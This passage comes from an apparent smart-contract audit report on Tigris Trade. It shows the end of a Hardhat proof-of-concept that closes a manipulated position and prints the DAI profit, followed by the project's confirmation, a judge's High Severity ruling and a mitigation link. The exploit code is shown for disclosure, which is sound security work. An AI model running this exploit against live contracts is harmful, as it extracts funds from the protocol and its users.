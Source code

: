 ```javascript



      // ============================================================== //
      // ======================== Close order  ======================== //
      // ============================================================== //

      // When we are happy with the profit, we stop increasing the delay and close the position

      // Wait for some blocks to pass the delay
      await network.provider.send("evm_increaseTime", [10])
      for (let n = 0; n < blockDelay; n++) {
        await network.provider.send("evm_mine")
      }

      // Close order
      await trading.connect(user).limitClose(
        1,          // id
        false,      // take profit
        priceData,  // price data
        sig,        // signature
      )

      // Withdraw to DAI
      const amount = await stabletoken.balanceOf(user.address)
      await stablevault.connect(user).withdraw(MockDAI.address, amount)

      // Print results
      const daiAtEnd = await mockDAI.balanceOf(user.address)
      const tenPow18 = "1000000000000000000"
      const diff = (daiAtEnd - daiAtBeginning).toString() / tenPow18
      console.log(`Profit: ${diff} DAI`)
    })
})
```

**[GainsGoblin (Tigris Trade) confirmed](https://github.com/code-423n4/2022-12-tigris-findings/issues/67)** 

**[Alex the Entreprenerd (judge) commented](https://github.com/code-423n4/2022-12-tigris-findings/issues/67#issuecomment-1383681527):**
 > The warden has shown how, through the combination of: finding a way to re-trigger the delayCheck, altering SL and TP prices, a trader can prevent their position from being closed, creating the opportunity for riskless trades.
> 
> Because of the broken invariants, and the value extraction shown, I agree with High Severity.

**[GainsGoblin (Tigris Trade) resolved](https://github.com/code-423n4/2022-12-tigris-findings/issues/67#issuecomment-1407130700):**
 > Mitigation: https://github.com/code-423n4/2022-12-tigris/pull/2#issuecomment-1419173125 


